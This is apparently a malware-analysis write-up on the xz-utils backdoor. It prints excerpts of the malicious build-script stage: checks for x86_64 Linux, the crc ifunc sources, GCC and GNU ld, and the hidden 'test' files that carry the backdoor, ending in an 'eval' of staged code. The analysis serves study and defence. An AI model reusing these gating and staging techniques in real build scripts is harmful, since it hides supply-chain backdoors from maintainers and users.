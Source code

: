 - Check system is based on x86_64 Linux

```
    if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc32_fast.c > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$R" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$x" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
        exit 0
    fi
```

- Check all crc ifunc codes
- [src/liblzma/check/crc64_fast.c](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/crc64_fast.c)
- `src/liblzma/check/crc32_fast.c` is not used for exploit
- [src/liblzma/check/crc_x86_clmul.h](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/crc_x86_clmul.h)

```
    if test "x$GCC" != 'xyes' > /dev/null 2>&1;then
        exit 0
    fi
    if test "x$CC" != 'xgcc' > /dev/null 2>&1;then
        exit 0
    fi
    LDv=$LD" -v"if ! $LDv 2>&1 | grep -qs 'GNU ld' > /dev/null 2>&1;then
        exit 0
    fi
```

- Check GCC and GNU ld is enabled

```
    if ! test -f "$srcdir/tests/files/$p" > /dev/null 2>&1;then
        exit 0
    fi
    if ! test -f "$srcdir/tests/files/$U" > /dev/null 2>&1;then
        exit 0
    fi
```

- Check if backdoor files exists
- `p="good-large_compressed.lzma"`
- `U="bad-3-corrupt_lzma2.xz"`
- (If there is no backdoor files, how to access this procedure..?)

```
    if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64";then
        eval $zrKcst
```
